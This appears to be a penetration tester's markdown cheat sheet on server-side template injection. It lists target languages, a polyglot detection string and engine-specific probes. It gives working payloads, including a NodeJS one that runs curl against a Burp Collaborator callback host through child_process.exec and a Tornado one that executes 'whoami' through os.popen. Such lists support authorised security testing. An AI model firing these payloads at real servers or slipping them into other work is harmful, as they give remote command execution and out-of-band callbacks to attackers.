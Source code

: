 # SSTI

```
- SSTI 
    - PHP 
    - NodeJS 
    - Java
    - Python
    - Ruby 
    - ASP
```

### payload

```
- #{function(){}()}
- #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 389rw78ngp6lsfdil25378nef5lx9m.burpcollaborator.net')}()}
```

### SSTI + XSS

```
- Detection -> Basic Payloads 
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
    - polyglot payload: <borna${7*7}{{7*7}}{7*7}#{7*7}{{7*'7'}}@(7*7)<%=7*7%>   
    - Velocity: #set($name = "borna") $name
        - https://velocity.apache.org/engine/1.7/user-guide.html
    - Twig: {{7*7}}, {{7*'7'}}
    - Tornado: <div data-gb-custom-block data-tag="import"></div>{{ os.popen("whoami").read() }}
```

### payloads

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
